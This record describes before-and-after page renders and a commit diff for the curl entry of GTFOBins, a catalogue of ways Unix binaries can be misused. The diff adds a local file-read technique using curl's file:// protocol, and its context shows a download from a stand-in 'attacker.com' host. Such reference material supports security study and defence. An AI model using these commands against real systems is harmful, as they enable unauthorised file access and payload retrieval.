

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/curl.md, in a window 1280 px wide. Shown: the top 863 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add file-read to curl

```diff
--- a/_gtfobins/curl.md
+++ b/_gtfobins/curl.md
@@ -12,4 +12,9 @@ functions:
         URL=http://attacker.com/file_to_get
         LFILE=file_to_save
         curl $URL -o $LFILE
+  file-read:
+    - description: Uses the FILE protocol to fetch and display the file. The file path must be absolute.
+      code: |
+        LFILE=/tmp/file_to_read
+        curl file://$LFILE
 ---
```
